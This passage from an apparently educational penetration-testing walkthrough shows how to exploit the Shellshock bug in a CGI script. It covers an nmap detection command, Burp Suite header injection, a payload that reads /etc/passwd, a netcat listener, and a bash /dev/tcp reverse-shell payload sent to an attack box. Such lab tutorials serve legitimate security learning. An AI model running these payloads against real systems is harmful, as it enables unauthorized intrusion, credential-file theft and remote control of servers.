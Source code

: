 Example:
```
nmap -sV 10.66.38.37 --script=http-shellshock --script-args "http-shellshock.uri"=/test.cgi
```

We can use the cgi script to inject the special characters within HTTP headers using the User-Agent header

###### 3. Use a proxy like Burp Suite/ZAP
- ***Note**: FoxyProxy is a Firefox/Chrome extension that helps manage proxy settings more efficiently. By switching profiles, you can direct browser traffic through Burp Suite or ZAP to intercept and analyze web requests. 

Open BurpSuite (`From Kali: Menu > Web Application Analysis > burpsuite`) a temporary project that's using Burp defaults is fine. The `Proxy` tab in Burp Suite is where you can view and intercept web traffic between your browser and the target server. It allows you to see requests and responses as they pass through Burp, making it easier to inspect or modify them.
Navigate to the 'Intercept' tab under the Proxy (`Proxy > Intercept`). First, make sure the Intercept is enabled (`Intercept is on`), as this feature in Burp Suite pauses traffic, allowing you to inspect, modify, forward, or drop each request/response before it reaches the server or client in real time.

- `Forward` allows the intercepted HTTP request/response to proceed to its destination
- `Drop` means discarding the intercepted HTTP request/response.

Under' 'Intercept', forward/drop request until you find the request involving the cgi script. We can inject the special characters through the User-Agent using a repeater (`Right-click within the packet data > Send to repeater`). The 'Repeater' in Burp Suite allows us to send individual HTTP requests to the server which we can modify to test the server's response. Navigate to the Repeater tab where you'll see the same request, then clear the header. First, include the special character `() { :; };` followed by whatever command you want to execute.
```
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```
Click `Send` to send the request through the repeater. If you can get an output in the Response then we know the vulnerability works.

###### 4. Setup a Netcat Listener

We can gain a reverse shell on that target by using bash to connect to a listener on our Kali Linux box using netcat. To set up a basic listener in Netcat, we need the `-lp` options to specify that we're setting up a listener on a port: 

```
nc -nvlp 1234
```
- `-l`: Listener | This tells Netcat to listen for incoming connections 
- `-p 1234`: Specifies the port number to listen on, which in this case is port 1234.
- `-n`: (Optional) | Tells Netcat not to resolve hostnames 
- `-v`:  (Optional) Runs Netcat in verbose mode, providing detailed output bash

###### 4. Edit the request to include the reverse shell back to the attack box

General Syntax:
```
() { :; }; echo; echo; /bin/bash -c "bash -i>&/dev/tcp/<attack_box_IP>/<listening_port> 0>&1"
```
